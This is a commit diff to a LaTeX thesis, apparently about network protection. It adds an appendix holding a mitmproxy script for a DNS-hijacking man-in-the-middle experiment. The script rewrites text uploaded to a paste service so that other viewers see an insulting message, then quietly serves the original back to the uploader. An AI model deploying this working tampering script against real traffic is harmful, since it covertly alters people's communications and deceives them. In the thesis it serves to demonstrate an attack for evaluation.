

Before and after one commit to YongBinnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn/hood, a LaTeX thesis (paper/paper.tex): two parts of pages 63 and 74 of 84 before the commit and two parts of pages 63 and 74 of 86 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Update paper.tex

```diff
--- a/paper/paper.tex
+++ b/paper/paper.tex
@@ -769,7 +769,7 @@ Thank you very much for the feedback. Your suggestion on X sounds legit. I will
 
 \subsubsection{With MITM attack by DNS hijacking, without protection}
 \paragraph{}
-Following commands are used to prepare MITM attack by DNS hijacking.
+Following commands are used to prepare MITM attack by DNS hijacking. The script used by mitmproxy is available at \cref{sec:mitmattack.py}.
 \begin{lstlisting}[language={},breaklines=true,postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space}]
 - Computer 1, Terminal 2
 > sudo kill $(ps -ef |grep dnsmasq|grep yongbin -m 1|sed "s/\w* *//"|cut -d " " -s -f 1)
@@ -1047,6 +1047,40 @@ It is a text file with lines of regular expressions. Lines starting with \# are
 \paragraph{}
 It is a text file with lines of IP subnets. Lines starting with \# are treated as comments and are ignored. IP addresses matching any one of the subnets in the file will be blocked.
 
+\section{mitmattack.py}\label{sec:mitmattack.py}
+\begin{lstlisting}[language=Python,breaklines=true,postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space}]
+#!/bin/python3
+from mitmproxy import http
+import logging
+
+hidden_truth={}
+what_others_see="Who do you think you are? How dare you to give me suggestions like this? Your naive ideas will never work. You have been blocked. *NEVER* send me emails again."
+
+def request(flow: http.HTTPFlow) -> None:
+  if flow.request.text:
+    if 'Content-Disposition: form-data; name="sprunge"' in flow.request.text:
+      lines = flow.request.text.split("\r\n")
+      setattr(flow, "spurnge", lines[3:-2])
+      lines = lines[:3] + [what_others_see] + lines[-2:]
+      flow.request.text = "\r\n".join(lines)
+  for url, text in hidden_truth.items():
+    print(url, flow.request.url)
+    if flow.request.url.startswith(url):
+      setattr(flow, "binyong", text)
+      print(1111)
+      break
+
+def response(flow: http.HTTPFlow) -> None:
+  if hasattr(flow, "spurnge"):
+    truth = "\r\n".join(flow.spurnge)
+    hidden_truth[flow.response.text.strip()] = truth
+    hidden_truth["https" + flow.response.text.strip()[4:]] = truth
+    print(flow.response.text)
+  if hasattr(flow, "binyong"):
+    flow.response.text = flow.binyong
+    print(flow.response.text)
+\end{lstlisting}
+
 \section{nftables.conf}\label{sec:nftables.conf}
 \begin{lstlisting}[language={},breaklines=true,postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space}]
 #!/usr/sbin/nft -f
```
